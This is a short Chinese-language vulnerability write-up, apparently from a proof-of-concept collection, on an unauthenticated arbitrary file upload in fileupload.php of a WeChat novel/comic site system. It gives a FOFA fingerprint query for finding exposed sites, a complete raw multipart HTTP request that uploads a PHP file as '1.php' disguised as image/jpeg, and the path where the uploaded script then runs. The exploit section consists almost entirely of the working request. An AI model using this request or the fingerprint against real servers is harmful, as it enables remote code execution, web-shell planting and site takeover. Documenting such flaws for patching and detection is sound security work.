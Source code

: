 # 微信公众号小说漫画系统fileupload.php存在任意文件写入漏洞

# 一、漏洞简介
微信公众号小说漫画系统前台任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

# 二、影响版本
+ 微信公众号小说漫画系统

# 三、资产测绘
+ fofa`"/Public/home/mhjs/jquery.js"`
+ 特征

![1728355919795-a0aaf6bf-ee63-459d-998f-cf682a606504.png](./img/h9AsBQFbBcBeN3KH/1728355919795-a0aaf6bf-ee63-459d-998f-cf682a606504-839533.png)

# 四、漏洞复现
```java
POST /Public/webuploader/0.1.5/server/fileupload.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAW4kl2MUmkWNAgBW
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; curIndex=3; uloginid=586639
Host: 
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/Public/webuploader/0.1.5/server/fileupload.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```

![1728355990707-baedf5e1-b865-479c-903d-403c1ca429a2.png](./img/h9AsBQFbBcBeN3KH/1728355990707-baedf5e1-b865-479c-903d-403c1ca429a2-058538.png)

```java
/Public/webuploader/0.1.5/server/upload/1.php
```

![1728355944065-0efedece-c38f-4038-beea-49bfae18cda9.png](./img/h9AsBQFbBcBeN3KH/1728355944065-0efedece-c38f-4038-beea-49bfae18cda9-113841.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ogfflvncv70d9ms4>
